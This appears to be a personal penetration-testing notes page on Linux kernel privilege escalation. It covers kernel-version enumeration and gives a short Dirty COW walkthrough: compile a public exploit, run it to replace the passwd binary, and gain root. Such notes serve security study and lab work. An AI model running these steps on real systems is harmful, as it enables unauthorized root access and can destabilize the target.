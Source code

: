 -- -
Kernel level exploit, exploits against the OS and it's logic. 
#### Enum
You are looking for kernel version on the target system to see what you can exploit. 
![[Dark Arts/Privesc/Linux/Enumeration/General Recon/System#^c36ae3]]
#### Exploitation
This section is more specific to the exploit you find. Each will be different and its own way of exploiting it. So mileage varies depending on the vulnerability. Usually with kernel level exploits, they will be written in C and will require you to compile the exploit and run it on the target. This is also liable to break the system or make it unstable so probably something you note but don't use unless you have no other option. 
##### Dirty Cow Example
```bash
# Get the exploit C code from searchsploit, exploitdb, google, etc
gcc -pthread <dirty cow src>.c -o <outputfile>
gcc pthread c0w.c -o cow
./cow
# Should say: Backing up /usr/bin/passwd to /tmp/bak
# so, it's replacing the passwd binary with a privesc, so run passwd
passwd

# any you should now have root.
```
#### Resources
- https://github.com/lucyoa/kernel-exploits
